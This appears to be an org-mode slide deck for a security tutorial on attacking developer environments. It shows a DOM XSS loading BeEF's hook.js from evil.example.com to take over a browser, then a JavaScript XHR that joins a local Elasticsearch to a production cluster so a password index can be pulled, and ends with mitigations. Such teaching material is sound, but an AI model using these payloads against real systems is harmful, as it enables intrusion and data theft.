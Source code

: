 #+TITLE: Exploiting Local Dev Environments
#+DATE: Mallory's Coming For You!
#+AUTHOR: Zach Roof
* Exploiting Local Dev Envs
** Table Of Contents
- [[#exploiting-local-dev-envs][Exploiting Local Dev Envs]]
  - [[#running-locally][Running Locally]]
  - [[#beef][BeEF]]
  - [[#how-does-beef-work][How does BeEF work?]]
  - [[#demo-how-to-find-a-devs-es-instance][Demo: How To Find A Dev's ES Instance]]
  - [[#demo-finding-a-prod-es-instance][Demo: Finding A Prod ES Instance]]
  - [[#demo-finding-a-prod-es-instance-cont][Demo: Finding A Prod ES Instance (CONT.)]]
  - [[#exfiltrating-data][Exfiltrating Data]]
  - [[#demo-cross-cluster-search][Demo: Cross Cluster Search]]
  - [[#demo-searching-the-prod-cluster][Demo: Searching The PROD Cluster]]
  - [[#assumption-recap][Assumption Recap]]
  - [[#mitigations][Mitigations]]
  - [[#knowledge-dependency-tree][Knowledge Dependency Tree]]

** Running Locally
   :PROPERTIES:
   :CUSTOM_ID: h-E21B7A9D-3C3C-40D1-9F1C-E1659ACE6C55
   :END:
+ See instructions in https://github.com/SecuringTheStack/tutorials/blob/master/ep7-exploiting-dev-envs-part-1/readme.org
** BeEF
- [[https://github.com/beefproject/beef][Browser Exploitation Framework]] (BeEF)
- Creates a browser botnet that can be controlled by a central server
- "BeEF looks past the hardened network perimeter and examines exploitability
  within the context of the one open door: the web browser"
  - What security assumption does this exploit?
    - Our VPN protects our network from the public internet

** How does BeEF work?
1. Bob visits a page with malicious Javascript
   - Ex: Mallory's DOM XSS loaded ~evil.example.com:3000/hook.js~
2. ~hook.js~ interacts with Mallory's Command and Control (C&C) server
3. Through the C&C server, Mallory launches attacks from the victim's browser
   - BeEF allows Mallory to...
     1. Find servers on the victim's local area network (LAN)
        - Including servers listening on ~localhost~
     2. Make REST requests to these servers if CORS isn't strict
     3. Execute arbitrary Javascript payloads within the victim's browser

** Demo: How To Find A Dev's ES Instance
- Leverage BeEF Cross-Origin Scanner Module
- Check for an Elasticsearch (ES) instance running locally with a permissive
  CORS policy
- If ES has a permissive CORS policy, BeEF can
  - Send any type of REST request to the DEV ES instance
    - ES 5.6 Community Edition currently has no authentication built in
      - Includes clustering interface

** Demo: Finding A Prod ES Instance
- Scenario
  - Dev is on VPN
  - VPN contains a Prod ES instance
  - Prod ES instance doesn't allow CORS
    - Its "locked down" so BeEf attacks won't work
    - "Its safe because its on the VPN"
- BeEF Port Scanner Module
  - Uses methods to avoid blocked ports or Same Origin Policy
    - If a server doesn't allow CORS, it can still see if it exists
    - Uses WebSockets, ~<img src="">~ tags, etc.

** Demo: Finding A Prod ES Instance (CONT.)
- Future: Script to scan subnet for hosts
  - Port Scanner module currently scans 1 host at a time
- For simplicity we'll scan ~prod.example.com:9201~
  - Leverage DNS just for easier separation

** Exfiltrating Data
- Due to PROD ES CORS Policy, BeEF can't directly connect...
- How could Mallory exfiltrate data while covering her tracks?
  - Have DEV ES join PROD ES as a cluster member?
  - Leverage /Cross Cluster Search/ to query Prod ES without joining as a
    cluster member
    - No syncing of complete dataset

** Demo: Cross Cluster Search
#+BEGIN_SRC Javascript
  var xhr = new XMLHttpRequest();
  xhr.open('PUT',"http://localhost:9200/_cluster/settings", true);
  xhr.setRequestHeader("Content-type", "application/json");
  xhr.send (JSON.stringify({
    "persistent": {
      "search": {
        "remote": {
          "cluster_one": {
            "seeds": [
              "prod.example.com:9300"
            ]
          }
        }
      }
    }
  }));
#+END_SRC

** Demo: Searching The PROD Cluster
- Pre-seeded with ~sensitive-data~ index with passwords
- Leverage CORS Request Module
  - Will initiate this request on the victim's computer
    - http://localhost:9200/*:sensitive-data/_search?pretty

** Assumption Recap
- How did this all happen?
- DOM XSS allowed Mallory to control the victim's browser
  - "Client-side XSS validation is a bad practice"
- Permissive CORS policy within DEV environment
  - Allowed Mallory to establish a connection with a PROD ES instance
  - "The outside internet cant interact with a process listening on ~localhost~"
- Leveraging CE software with no authentication
  - Allowed Mallory to exfiltrate data out of production ES instance
  - "Our authentication is our VPN"

** Mitigations
- Basic Authentication Proxy
- https://github.com/sscarduzio/elasticsearch-readonlyrest-plugin
- Questioning your assumptions
  - Move from /unknown/ unknowns
    - To /known/ unknowns
- Feedback: zach@securingthestack.com

** Knowledge Dependency Tree
